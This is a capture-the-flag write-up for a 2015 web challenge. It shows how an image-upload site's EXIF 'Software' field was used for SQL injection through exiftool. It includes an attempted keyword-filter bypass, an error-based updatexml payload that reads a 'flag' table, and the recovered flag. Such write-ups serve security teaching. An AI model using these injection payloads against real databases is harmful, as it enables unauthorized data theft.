 #D-CTF Final 2015 Limitless [web] 200

##Problem
You have to get something from table "flag". :-)

##Solution
It's a website for uploading your own pictures. After some testing, I found that the website would read the exif "Software" option and search for the pictures with the same software in there database.<br>
The output would be like this:

<pre><code>Searching for testing
0 pictures with similar software found.</code></pre>

So we could use **exiftool** to edit the software section in the picture:<br>
<code>exiftool -Software='' pic.jpg</code>

Also, I found that the website would filter "union", but "select" was not filtered. So first I try to use some waf bypass techniques.<br>
I tried the input: <code>-Software="test\"U/**/NiOn sE/**/lECt 1 fr/**/om flag-- -"</code>
And I got the following output:<br>
<pre><code>Searching for test"U//NiOn sE//lECt 1 fr//om flag-- -
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'U//NiOn sE//lECt 1 fr//om flag-- -"' at line 1 pictures with similar software found.</code></pre>

Ok, waf bypass seemed to be useless, but now we were sure that it was an error base SQLi problem.

Then it was much easier now. Since it was error base SQLi, we could try to use "**updatexml**". And the following input could get the flag:<br>
<code>or(select updatexml(1,(select*from flag),1))#</code>

And the flag is <code>DCTF{09d5d8300a7adc45c5d434bb467f2a85}</code>.
